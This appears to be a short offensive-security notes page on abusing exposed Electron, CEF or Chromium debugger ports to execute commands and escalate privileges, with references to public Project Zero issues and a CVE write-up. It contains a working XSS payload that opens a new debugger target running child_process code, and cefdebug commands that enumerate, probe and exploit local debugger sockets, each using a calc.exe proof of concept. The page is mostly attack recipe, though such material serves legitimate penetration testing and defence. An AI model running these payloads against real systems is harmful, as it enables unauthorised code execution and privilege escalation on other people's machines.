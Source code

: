 # electron/CEF/chromium debugger abuse

If you find any process with **electron, cef or chromium debugger running** and listening to a port you should try to make the **debugger execute arbitrary commands**.  
Abusing this behaviour you **could be able to escalate privileges**.

The abuse of this vulnerability remotely could be as easy as injecting via XSS this line of JS:

```markup
<img src="http://localhost:40000/json/new/?javascript:require('child_process').spawnSync('calc.exe')">
```

But obviously the exploitation will be **much easier locally**, as you can use a tool such as: [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)\*\*\*\*

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

List of resources to pwn electorn apps: [https://github.com/doyensec/awesome-electronjs-hacking](https://github.com/doyensec/awesome-electronjs-hacking)

## References

* [https://www.youtube.com/watch?v=iwR746pfTEc&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)

